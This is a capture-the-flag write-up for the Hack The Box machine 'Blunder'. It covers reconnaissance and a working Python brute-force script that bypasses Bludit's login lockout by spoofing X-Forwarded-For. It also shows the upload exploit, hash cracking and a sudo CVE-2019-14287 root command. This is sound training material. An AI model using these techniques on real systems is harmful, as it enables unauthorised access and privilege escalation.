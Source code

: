 # Blunder
![alt text](https://www.hackthebox.eu/storage/avatars/6437ea67350beceeb5c313f386bd1abe_thumb.png)
Hack the Box, Blunder   
Easy, Linux, 20 Points

# Reconnaisance
  - Nmap

    ```bash
    nmap -A -T5 -oN nmap.txt -vv 10.10.10.191

    # Nmap 7.60 scan initiated Wed Jun  3 23:28:58 2020 as: nmap -A -T5 -oN nmap.txt -vv 10.10.10.191
    Increasing send delay for 10.10.10.191 from 0 to 5 due to 11 out of 20 dropped probes since last increase.
    Nmap scan report for 10.10.10.191
    Host is up, received syn-ack (0.21s latency).
    Scanned at 2020-06-03 23:28:58 +08 for 187s
    Not shown: 998 filtered ports
    Reason: 998 no-responses
    PORT   STATE  SERVICE REASON       VERSION
    21/tcp closed ftp     conn-refused
    80/tcp open   http    syn-ack      Apache httpd 2.4.41 ((Ubuntu))
    |_http-generator: Blunder
    | http-methods: 
    |_  Supported Methods: POST
    |_http-title: Blunder | A blunder of interesting facts
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Jun  3 23:32:05 2020 -- 1 IP address (1 host up) scanned in 186.94 seconds

    ```
# Website Enum
  - Gobuster
  
    ```
    gobuster -u http://10.10.10.191/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt' -x php,html,txt
    /admin
    /todo.txt
    ```
    Note Found in /todo.txt
    ```
    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING
    ```
    From the note, we have user 'fergus' mentioned.
    Login page found in /admin
    Generate Password wordlist from the website using cewl
    ```bash
    cewl -d 10 -m 8 -w wordlist http://10.10.10.191
    ```
    bruteforce the login using this [script](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) as reference
    here is my working script
    ```python
    #!/bin/python
    
    import re
    import requests
    #import http.client 
    host = 'http://10.10.10.191'
    login_url = host + '/admin/'
    username = 'fergus'
    wordlist = []
    
    file = open('wordlist','r')
    for word in file:
        wordlist.append(word)
    
    
    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        try:
            csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
        except:
            csrf_token = None
        print('[*] Trying: {p}'.format(p = password))
        #http.client._is_legal_header_name = re.compile(rb'[^\s][^:\r\n]*').fullmatch
        headers = {
            'X-Forwarded-For': password.strip(),
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }
    
        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password.strip(),
            'save': ''
        }
    
        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = True)
    
        #print(login_result.text)
        if '/admin/dashboard' in login_result.text:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
    ```



# User Access

to gain user access, we need to exploit bludit's arbitrary file upload vulnerability.
here i'm using metasploit, but it can also be done by using the php exploit.
here is the [link](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec) to the rapid7 website regarding the module that will be used.

![alt text](https://i.imgur.com/X2hdtiF.png)
after getting shell as www-data, we can try to enumerate the website deployment directory to find the password hash of the user 'hugo'.

Inside 
    ```
    /var/www/bludit-3.10.0a/bl-content/databases    
    ```
we can find "users.php" that contains the hash of user 'hugo'

![alt text](https://i.imgur.com/cFUhSOs.png)

we can try to analyze the hash in this [website](https://www.tunnelsup.com/hash-analyzer/) and turns out that the hash is actually SHA1. Then we can try to crack it online. i found this [website](https://md5decrypt.net/en/Sha1/) worked.

after getting the password, We can su to hugo and get the user flag inside hugo's homme directory.

![alt text](https://i.imgur.com/LxyFvDM.png)

# Privilege Escalation

Since we have the password of hugo already, we can try to execute 
    ``` 
    $ sudo -l
    ```
this will return the sudo privilege of the user 'hugo'

    
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    

From the result above, we can see that this machine may vulnerable to the famous vulnerability sudo that can help user escalate privilege by passing unisgned user id. You can read the details [here](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

we can exploit it with a simple command. Since the sudo can work with bash, so we can try to execute
    ```
    $ sudo -u#-1 /bin/bash
    ```
from that simple command we can directly get a root shell   
![alt text](https://i.imgur.com/I8r0HzY.png)

